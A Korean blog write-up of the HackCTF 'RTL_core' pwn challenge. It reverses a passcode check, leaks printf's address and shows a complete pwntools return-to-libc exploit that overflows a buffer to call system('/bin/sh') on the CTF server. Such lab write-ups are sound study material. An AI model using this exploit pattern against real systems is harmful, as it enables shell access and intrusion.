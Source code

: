```yaml
---
layout: post
title:  "HacCTF RTL core write-up"
date:   2020-01-12 19:45:55
image:  hackctf_rtl_core.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] RTL_core

Date: Jan 12, 2020
Tags: report

### 1.  문제

걸려있는 보호기법은 다음과 같다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled.png)

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%201.png)

문제를 실행시키면 패스코드를 입력하라는 문구가 나오게 된다.

특정 패스코드를 입력해야 뭔가 다음 스텝으로 진행되는 것 같다. 

따라서 아이다로 까보쟈

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%202.png)

9라인을 보면 gets로 입력한 s 값을 check_pascode 함수에 넣은 값과 hashcode와 비교하는 것이 보인다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%203.png)

hashcode는 전역변수로 선언이 되어있는데 이 값은 0xc0d9b0a7 이다. check_passcode 함수의 리턴값과 저 값이 같아야지 core() 함수가 실행되는 것같다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%204.png)

core함수는 다음과 같다. dlsym 함수를 이용하여 printf의 주소를 가져오는 코드이다. 따라서 해당 core 함수가 실행되면 printf 함수주소를 알려주게 된다. 즉 leak을 이용한 rtl 문제이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)

그렇다면 우선 check_passcode 함수에서 hashcode와 같은 값을 계산하게 만들어야한다

### 2. 접근방법

우선 check_passcode를 통과시켜 보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%206.png)

입력한 값의 주소가 넘어가게된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%205.png)

for문을 보면 al값에 4*i 만큼 더하고 다시 4바이트 포인터로 형변환 값을 v2에 더하게 된다

즉, 정리하면

- **i = 0**

    v2 = 0 + a1

- **i = 1**

    v2 = 4 + a1

- **i = 2**

    v2 = 8 + a1

- **i = 3**

    v2 = 12 + a1

- **i = 4**

    v2 = 16 + a1

다음의 로직이 수행이 되고, 이 의미는, al 주소에서 4바이트 씩 +16까지 더한다는 의미이다.

이 값이 아까 hasscode와 같아야 하기 때문에 hashcode 나누기 5 를 하면 된다

하지만 딱 떨어지지 않고 2가 남기 때문에, 마지막 al+16의 값은 +2를 해주면 된다

1. hashcode : 0xC0D9B0A7(3235492007)
2. hashcode / 5 =  647098401 (나머지 2)
3. 입력해야 하는 값 

    647098401 + 647098401  + 647098401  + 647098401  + (647098401 + 2)

그다음 core함수를 통해 출력되는 printf 주소를 이용하여 rtl을 진행하면된다

문제에서 libc.so.6 파일을 주었기 때문에, pwntools symbols 기능을 이용하여 익스코드를 짜면된다

### 3. 풀이

최종 익스 코드는 다음과 같다

    # -*- coding: utf-8 -*- 
    
    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3015)
    e = ELF("./libc.so.6")
    #p = process("./rtlcore")
    #gdb.attach(p)
    
    p.recvuntil("Passcode: ")
    
    
    printf = 0xf7e4a670
    system = 0xf7e3bda0
    bin_sh = 0xf7f5ca0b
    
    printf_system = 0xe8d0
    bin_sh_printf = 0x11239b
    
    
    payload = p32(0x2691f021)*4
    payload +=p32(0x2691f023)
    
    p.sendline(payload)
    tmp=p.recvuntil("바로 ")
    log.info(tmp)
    
    printf_addr = int(p.recv(10),16)
    log.info(hex(printf_addr))
    
    
    libc_base = printf_addr - e.symbols['printf']
    
    system_addr = libc_base + e.symbols['system']
    bin_sh_addr = libc_base + e.search("/bin/sh").next()
    
    payload = "A"*66
    payload += p32(system_addr)
    payload += "B"*4
    payload += p32(bin_sh_addr)
    
    p.sendline(payload) 
    
    p.interactive()

### 4. 몰랐던 개념

처음에는 yes_or_no 문제를 풀면서 공부한 libc 공유 라이브러리 개념을 이용하여 문제를 풀었다

leak 한 주소 하위 3바이트를 가지고 libc database online을 이용하여 해당 libc 버전을 확인하였고, vmmap 을 이용하여 한번더 버전을 확인했다.

그 결과 우분투 16버전에서 진행하면 되는 것을 확인하였고,

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20RTL_core/Untitled%207.png)

다음의 명령어를 통해 주어진 libc.so.6 파일이 결국 libc.-2.23.so 파일에 링킹되어 있다는 것을 알았다

그래서

    printf : 0xf7e4a670
    system : 0xf7e3bda0
    /bin/sh : 0xf7f5ca0b
    
    1. printf - system = 0xe8d0
    2. /bin/sh - printf =  0x11239b
    
    3. leak 한 printf 주소 - 0xe8d0 = system
    4. leak 한 printf 주소 + 0x11239b = /bin/sh
    
    --------------------------------------------
    
    ret(system) + 더미 + /bin/sh주소

이렇게 gdb로 직접 오프셋을 확인하여 익스를 하였는데

process로 로컬로 붙어서 했을때는 쉘이 떨어졌는데 원격으로는 안됬다. 

이부분은 멘토님이나 다른 친구한테 질문해야 할 것같다